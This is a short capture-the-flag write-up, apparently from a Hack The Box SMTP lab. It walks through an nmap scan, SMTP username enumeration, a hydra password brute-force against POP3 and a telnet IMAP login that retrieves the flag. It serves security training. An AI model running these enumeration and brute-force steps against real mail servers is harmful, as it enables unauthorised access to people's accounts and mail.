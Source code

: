 # SMTP

### What is the available username for the domain inlanefreight.htb in the SMTP server?

```bash
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.203.12
PORT    STATE    SERVICE VERSION
25/tcp  open     smtp    hMailServer smtpd
| smtp-commands: WIN-02, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp open     pop3    hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
143/tcp open     imap    hMailServer imapd
|_imap-capabilities: IMAP4 RIGHTS=texkA0001 ACL OK CHILDREN IMAP4rev1 completed CAPABILITY IDLE QUOTA NAMESPACE SORT
465/tcp filtered smtps
587/tcp open     smtp    hMailServer smtpd
| smtp-commands: WIN-02, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp filtered imaps
995/tcp filtered pop3s
Service Info: Host: WIN-02; OS: Windows; CPE: cpe:/o:microsoft:windows
```

lets enumerate

```bash
smtp-user-enum -M RCPT -U HTB/users.list -D inlanefreight.htb -t 10.129.47.111 -w 15 -v
10.129.47.111: marlin@inlanefreight.htb exists
```

now lets brute force our way in

```bash
hydra -l marlin@inlanefreight.htb -P HTB/passwords.list -f 10.129.47.111 pop3
#[110][pop3] host: 10.129.47.111   login: marlin@inlanefreight.htb   password: poohbear
```

now lets use telnet to connect mail server

```bash
#i choose imap
telnet 10.129.248.242 143
1 LOGIN marlin@inlanefreight.htb poohbear
1 LIST "" *
1 SELECT INBOX
1 FETCH 1 all
1 FETCH 1 BODY[]
flag: HTB{w34k_p4$$w0rd}
```

flag: HTB{w34k\_p4\$$w0rd}
